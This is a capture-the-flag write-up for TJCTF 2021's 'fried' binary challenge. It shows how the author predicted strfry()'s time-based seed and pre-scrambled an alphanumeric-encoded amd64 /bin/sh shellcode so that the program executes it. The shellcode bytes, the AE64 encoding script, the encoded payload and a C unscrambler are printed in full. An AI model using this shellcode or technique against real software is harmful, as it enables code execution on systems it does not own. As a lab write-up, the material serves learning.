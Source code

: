 # TJCTF 2021 - Writeup: fried

This was a fun challenge, especially because we got first blood on it :-)


 ![Challenge Web](images/challenge-web.png)


The challenge was in the form of a binary named <code>chall</code>

## Inspecting the binary

After importing the binary into Ghidra, the following code is found in the main()-function

 ![main](images/main.png)

In short the code does the following:
1. Allocate 4096 bytes of memory
2. Read 4096 bytes from stdin into that memory
3. Validate that all read bytes are between 0x30 and 0x7e which mainly represents alphanumeric characters
4. Use the function strfry() to scramble the read bytes
5. Execute the now scrambled bytes :-P

My first thought was to see if i could find some win()-function and spray the memory with a couple of bytes that would jump to that function, but alas no such function could be found.

## Looking at <b>strfry()</b>

So I turned to see if the strfry()-function was predictable. (spoiler: It was ;-))

 ![main](images/strfry.png)

 In the beginning of the function __initstate_r()-function is called and are using the current time in epoch xor:ed with the current pid. The current time shouldn't be much of a problem. This is a common CTF-scenario and there are usually only at most a few seconds difference between the CTF-server and "my" computer.

 The pid of the current process could have be a problem, but because the CTF-infrastructure is using containers, the pid is actually always 1 :-)

Okey, so we should be able to handle the scrambling-part. Then, what to send in.

## Creating a payload

With the awesome pwntools it's easy to generate some shellcode. 

```bash
 shellcraft amd64.linux.sh -f escaped
```
this generates the following escaped string:
```bash
"\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05"
```

Now this wont work. Only alphanumerics allowed.

I tried using the pwnlib-function: <b>pwnlib.encoders.encoder.alphanumeric(...)</b>, but i couldn't get that to work, so I found another encoder called [AE64](https://github.com/veritas501/ae64)

Using that I could create a working payload with the following code:

```python
from ae64 import AE64
from pwn import *
context.arch='amd64'

shellcode = asm(shellcraft.sh())

enc_shellcode = AE64().encode(shellcode)
print(enc_shellcode.decode())
```

This generates the following:
<pre>
WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjcTYfi9O60t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9860t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP
</pre>

## Reverse scrambling

Okey, so now to handle the scrambling.
I modified the strfry()-function to following C code to reverse-scramble of the data:

```C
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <unistd.h>

char *
strfry (char *string, int drift)
{
    static int init;
    static struct random_data rdata;
    if (!init)
    {
        static char state[32];
        rdata.state = NULL;
        time_t now = time ((time_t *) NULL);
        // apply the drift seconds
        now += drift;
        
        initstate_r (now ^ 1, state, sizeof (state), &rdata);
        init = 1;
    }

    size_t len = strlen (string);

    int pos[0x1000];

    if (len > 0)
    {
        // Generate scramble swaps and put them in a list
        for (size_t i = 0; i < len - 1; ++i)
        {
            int32_t j;
            random_r (&rdata, &j);
            j = j % (len - i) + i;
            pos[i] = j;
        }
        // Apply changes in the reverse order
        for (size_t i = len-2; i >= 0; --i)
        {
            int j = pos[i];
            char c = string[i];
            string[i] = string[j];
            string[j] = c;
            if (i == 0) break;
        }
    }
    return string;
}

void main(int argc, char **argv) {
    // accept drift seconds as parameter
    int drift = atoi(argv[1]);
    char mem[0x1001];
    for (int i=0;i<0x1000;i++)mem[i] = 'A';
    char *shellcode = "WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjcTYfi9O60t800T810T850T860T870T8A0t8B0T8D0T8E0T8F0T8G0T8H0T8P0t8T0T8YRAPZ0t8J0T8M0T8N0t8Q0t8U0t8WZjUTYfi9860t800T850T8P0T8QRAPZ0t81ZjhHpzbinzzzsPHAghriTTI4qTTTT1vVj8nHTfVHAf1RjnXZP";
    int shellcode_len = strlen(shellcode);
    for (int i=0;i<shellcode_len;i++)mem[i] = shellcode[i];
    mem[0x1000] = 0;
    strfry(mem, drift);
    puts(mem);
} 
```

This now generates a payload that is reverse scrambled so that it becomes correct when the challenge scrambles it.

![gen](images/gen.png)

## Xploiting

So now we just have to use it.
Had to try a couple of drift seconds, but then! Woop! :-)

![gen](images/xpl.png)

A really nice challenge. Thanks <b>TJCTF</b> and <b>kfb</b>
